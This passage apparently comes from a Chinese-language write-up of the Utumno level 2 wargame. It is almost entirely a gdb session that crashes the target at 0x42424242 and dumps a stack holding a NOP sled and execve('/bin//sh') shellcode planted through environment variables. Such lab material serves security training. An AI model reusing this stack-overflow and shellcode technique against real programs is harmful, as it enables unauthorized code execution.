 参数,环境变量都在栈上,用gdb调试一下,选一个位置:

```bash
utumno2@utumno:/tmp/fdk$ gdb ./setup 

(gdb) r
Starting program: /tmp/fdk/setup 
process 20350 is executing new program: /utumno/utumno2

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/200wx $esp
0xffffddb0:	0x00000000	0xffffde44	0xffffde48	0x00000000
0xffffddc0:	0x00000000	0x00000000	0xf7fc5000	0xf7ffdc0c
0xffffddd0:	0xf7ffd000	0x00000000	0x00000000	0xf7fc5000
0xffffdde0:	0x00000000	0xa60fbcbe	0x9cf050ae	0x00000000
0xffffddf0:	0x00000000	0x00000000	0x00000000	0x08048350
0xffffde00:	0x00000000	0xf7fee710	0xf7e2a199	0xf7ffd000
0xffffde10:	0x00000000	0x08048350	0x00000000	0x08048371
0xffffde20:	0x0804844b	0x00000000	0xffffde44	0x08048490
0xffffde30:	0x080484f0	0xf7fe9070	0xffffde3c	0xf7ffd920
0xffffde40:	0x00000000	0x00000000	0xffffdf40	0xffffdf42
0xffffde50:	0xffffdf44	0xffffdf46	0xffffdf48	0xffffdf4a
0xffffde60:	0xffffdf4c	0xffffdf4e	0xffffdf50	0xffffdfd3
0xffffde70:	0x00000000	0x00000020	0xf7fd7c90	0x00000021
0xffffde80:	0xf7fd7000	0x00000010	0x178bfbff	0x00000006
0xffffde90:	0x00001000	0x00000011	0x00000064	0x00000003
0xffffdea0:	0x08048034	0x00000004	0x00000020	0x00000005
0xffffdeb0:	0x00000008	0x00000007	0xf7fd9000	0x00000008
0xffffdec0:	0x00000000	0x00000009	0x08048350	0x0000000b
0xffffded0:	0x00003e82	0x0000000c	0x00003e82	0x0000000d
0xffffdee0:	0x00003e82	0x0000000e	0x00003e82	0x00000017
0xffffdef0:	0x00000001	0x00000019	0xffffdf2b	0x0000001a
0xffffdf00:	0x00000000	0x0000001f	0xffffdfe8	0x0000000f
0xffffdf10:	0xffffdf3b	0x00000000	0x00000000	0x00000000
0xffffdf20:	0x00000000	0x00000000	0x62000000	0x6eb9cc81
0xffffdf30:	0x73a0acda	0x6f3f2e3b	0x69302ec9	0x00363836
0xffffdf40:	0x00310030	0x00330032	0x00350034	0x00370036
0xffffdf50:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdf60:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdf70:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdf80:	0x90909090	0x90909090	0x90909090	0x90909090
---Type <return> to continue, or q <return> to quit---
0xffffdf90:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdfa0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdfb0:	0x90909090	0x90909090	0x50c03190	0x732f2f68
0xffffdfc0:	0x622f6868	0xe3896e69	0xd231c931	0x042c0fb0
0xffffdfd0:	0x610080cd	0x62616161	0x63626262	0x41636363
0xffffdfe0:	0x42414141	0x00424242	0x7574752f	0x2f6f6e6d
0xffffdff0:	0x6d757475	0x00326f6e	0x00000000	0x00000000
0xffffe000:	Cannot access memory at address 0xffffe000
(gdb) 

```
